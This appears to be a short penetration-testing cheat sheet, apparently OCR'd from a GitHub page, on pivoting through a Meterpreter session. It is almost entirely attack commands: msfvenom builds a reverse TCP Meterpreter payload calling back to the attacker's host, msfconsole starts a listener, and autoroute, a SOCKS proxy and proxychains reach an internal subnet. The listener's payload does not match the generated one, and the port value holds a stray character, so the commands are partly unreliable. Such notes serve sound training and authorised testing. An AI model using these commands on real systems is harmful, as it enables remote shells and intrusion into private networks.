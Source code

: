 ```yaml
---
category: Uncategorized
tags: []
---
```


PIVOT USING AUTOROUTE IN METERPRETER SESSION

```bash - kali
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=$KALI LPORT=<443 -f elf > shell-x64.elf
```

```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST $KALI;set LPORT 443;run;"
```

```meterpreter - kali
run autoroute -s 172.16.1.0/24
```

```meterpreter - kali
run autoroute -p
```

```meterpreter - kali
background
```

```meterpreter - kali
use auxiliary/server/socks_proxy

```

```meterpreter - kali
info
```

```meterpreter - kali
options
```

```meterpreter - kali
run
```

sudo mousepad /etc/proxychains4.conf

socks5 127.0.0.1 1080





